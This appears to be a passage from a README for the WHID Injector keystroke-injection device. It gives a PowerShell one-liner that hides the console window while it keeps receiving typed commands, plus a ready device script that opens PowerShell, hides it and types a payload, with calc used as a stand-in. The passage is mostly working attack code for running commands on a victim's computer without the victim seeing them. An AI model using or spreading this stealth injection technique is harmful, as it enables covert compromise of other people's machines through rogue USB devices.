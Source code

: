 The following PoSH Snippet will call a Powershell console, will type in this magic PoSH code (kudos to @mame82 for the idea) and then will hide the entire console and keep typing (in it) your own payload.

```
$r=[Runtime.InteropServices.HandleRef];$w=New-Object $r (1,(ps -Id $pid).MainWindowHandle);$i=New-Object $r(2,0);(([reflection.assembly]::LoadWithPartialName("WindowsBase")).GetType("MS.Win32.UnsafeNativeMethods"))::SetWindowPos($w,$i,0,0,1,1,16512)
```

1) Open a PowerShell console
2) Copy & paste in the stub from above 
3) Hit Return and the Window gets hidden (but is still receiving keyboard input) 
4) Try it by entering "calc.exe" followed by return (don't activate another window before)

Real Payload example for WHID Injector:<br>
```
DefaultDelay:1000
Press:131+114
PrintLine:powershell
CustomDelay:2000
PrintLine:$r=[Runtime.InteropServices.HandleRef];$w=New-Object $r (1,(ps -Id $pid).MainWindowHandle);$i=New-Object $r(2,0);(([reflection.assembly]::LoadWithPartialName("WindowsBase")).GetType("MS.Win32.UnsafeNativeMethods"))::SetWindowPos($w,$i,0,0,1,1,16512)
PrintLine:calc
```